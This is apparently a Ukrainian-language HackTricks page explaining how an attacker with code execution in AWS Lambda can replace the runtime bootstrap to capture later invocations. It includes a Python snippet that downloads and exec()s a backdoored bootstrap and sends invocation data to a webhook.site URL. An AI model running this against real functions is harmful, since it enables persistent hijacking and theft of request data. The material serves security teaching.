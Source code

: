 # AWS - Вкрасти запити Lambda

{{#include ../../../../banners/hacktricks-training.md}}

## Потік Lambda

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** - це процес поза контейнером, який **надсилає** **виклики** до процесу **init**.
2. Процес init слухає на порту **9001**, відкриваючи деякі цікаві кінцеві точки:
- **`/2018-06-01/runtime/invocation/next`** – отримати наступну подію виклику
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – повернути відповідь обробника для виклику
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – повернути помилку виконання
3. **bootstrap.py** має цикл, що отримує виклики з процесу init і викликає код користувача для їх обробки (**`/next`**).
4. Нарешті, **bootstrap.py** надсилає до init **відповідь**.

Зверніть увагу, що bootstrap завантажує код користувача як модуль, тому будь-яке виконання коду, яке виконується кодом користувача, насправді відбувається в цьому процесі.

## Вкрадання запитів Lambda

Мета цієї атаки - змусити код користувача виконати шкідливий процес **`bootstrap.py`** всередині процесу **`bootstrap.py`**, який обробляє вразливий запит. Таким чином, **шкідливий bootstrap** процес почне **спілкуватися з процесом init**, щоб обробляти запити, поки **легітимний** bootstrap **потрапить** у пастку, виконуючи шкідливий, тому він не запитуватиме запити у процесу init.

Це проста задача, оскільки код користувача виконується легітимним процесом **`bootstrap.py`**. Тому зловмисник може:

- **Надіслати підроблений результат поточного виклику до процесу init**, щоб init думав, що процес bootstrap чекає на більше викликів.
- Запит має бути надісланий до **`/${invoke-id}/response`**
- invoke-id можна отримати зі стеку легітимного процесу **`bootstrap.py`**, використовуючи модуль [**inspect**](https://docs.python.org/3/library/inspect.html) python (як [пропонувалося тут](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) або просто запитуючи його знову до **`/2018-06-01/runtime/invocation/next`** (як [пропонувалося тут](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Виконати шкідливий **`boostrap.py`**, який оброблятиме наступні виклики.
- Для цілей прихованості можливо надіслати параметри викликів lambda до C2, контрольованого зловмисником, а потім обробляти запити як зазвичай.
- Для цієї атаки достатньо отримати оригінальний код **`bootstrap.py`** з системи або [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), додати шкідливий код і запустити його з поточного виклику lambda.

### Кроки атаки

1. Знайти вразливість **RCE**.
2. Згенерувати **шкідливий** **bootstrap** (наприклад, [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Виконати** шкідливий bootstrap.

Ви можете легко виконати ці дії, запустивши:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Для отримання додаткової інформації перевірте [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Посилання

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
